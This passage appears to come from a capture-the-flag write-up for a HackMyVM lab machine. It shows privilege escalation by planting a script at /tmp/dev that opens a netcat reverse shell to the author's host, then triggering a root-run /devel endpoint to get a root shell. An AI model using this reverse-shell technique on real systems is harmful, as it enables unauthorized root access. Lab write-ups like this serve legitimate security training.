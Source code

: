 **Key points:** 
- `/devel`: If you access `http://domain/devel`, it will start a shell session.
- `root:root`: The shell will run as **user root** and **group root**.
- `/`: The shell session will start in the **root (`/`) directory**.
- `/tmp/dev`: This could be a binary or script located at `/tmp/dev`, which will be executed as **root** upon access to `/devel`

So, i will craft a script in `/tmp` and i will start a reverse shell:

```bash
rocio@bah:~$ cd /tmp
rocio@bah:/tmp$ nano dev
rocio@bah:/tmp$ cat dev
#1/bin/bash


nc 192.168.0.105 8080 -e /bin/bash
rocio@bah:/tmp$ chmod +x dev
```

In my machine host:

```bash
nc -nlvp 8080
```

Go to `http://party.bah.hmv/devel`

In my host:

```bash
nc -nlvp 8080
listening on [any] 8080 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.100] 47888
whoami
root
ls -l
root.txt
```

**SECOND FLAG**

----
